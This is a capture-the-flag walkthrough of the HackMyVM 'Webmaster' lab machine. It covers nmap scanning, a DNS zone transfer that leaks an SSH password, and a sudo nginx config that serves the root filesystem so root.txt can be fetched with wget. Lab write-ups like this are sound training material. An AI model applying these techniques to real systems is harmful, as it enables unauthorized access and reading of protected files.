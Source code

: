 # **Webmaster | HackMyVMM**
***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/92e91392-f94e-4ff4-b8f5-c3a26d291308)

## **Difficulty = Easy**
***



First things first, scan the network to discover live host


```bash
nmap -sn 192.168.0.0/24
```



![](https://i.imgur.com/jn0GrKz.png)



Running our nmap scan we discovered 3 open ports


```bash
# Nmap 7.94 scan initiated Fri Dec  8 09:29:40 2023 as: nmap -p- -sCV -v -T4 -oN logs.txt --min-rate=1000 192.168.0.158
Nmap scan report for webmaster (192.168.0.158)
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7e:d2:d5:d0:45:36:d7:c9:ed:3e:1d:5c:86:fb:e4 (RSA)
|   256 04:9d:9a:de:af:31:33:1c:7c:24:4a:97:38:76:f5:f7 (ECDSA)
|_  256 b0:8c:ed:ea:13:0f:03:2a:f3:60:8a:c3:ba:68:4a:be (ED25519)
53/tcp open  domain  (unknown banner: not currently available)
| dns-nsid: 
|_  bind.version: not currently available
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    currently available
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.94%I=7%D=12/8%Time=6572D409%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,52,"\0P\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x
SF:04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x18\x17not\x20curren
SF:tly\x20available\xc0\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec  8 09:30:14 2023 -- 1 IP address (1 host up) scanned in 34.28 seconds
```


Navigating to port `80/HTTP` we have this meme 😂 (I hope this teaches people out there not to store password in `.TXT` files, Use a Password Manager instead!!)



![](https://i.imgur.com/ior02HK.png)



Viewing **Page-Source** we have this comments


![](https://i.imgur.com/rgK9fys.png)



As usual we can go ahead and add this to our `/etc/hosts` file


![](https://i.imgur.com/wQEJO11.png)



since port `53/DNS` is opened we can go ahead and do a zone transfer attack


![](https://i.imgur.com/GYUn7db.png)

Hell yeah, something looks odd here though, in the `TXT` records we have the text `Myhiddenpazzword` and then it is linked to the subdomain **john.webmaster.hmv**, let go ahead and try to login via SSH with this


![](https://i.imgur.com/UXQYT4S.png)


So definitely **John's** password is `Myhiddenpazzword`, Running `sudo -l` we have permissions to run `nginx` as root using the **sudo** command


![](https://i.imgur.com/hOKh8WH.png)



We can go ahead and host our `/` directory via nginx then get the root flag as i won't be escalating privileges to root, but performing an horizontal privilege escalation, Save the file below on **John's** home folder and call it `whatever.conf`


```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```



Now run `nginx` with **sudo** pointing to the config file as this we host the `/` directory on our localhost running on port `1337`


```bash
sudo /usr/sbin/nginx -c /home/john/whatever.conf 
```


![](https://i.imgur.com/kpsMSvj.png)



The server does not seem to have `curl` installed but it does have `wget`, so we can use `wget` to download the root flag

```bash
wget  127.0.0.1:1337/root/root.txt
```


![](https://i.imgur.com/EugfhGy.png)



Have fun 🤟


![Uploading file...y2w2r]()
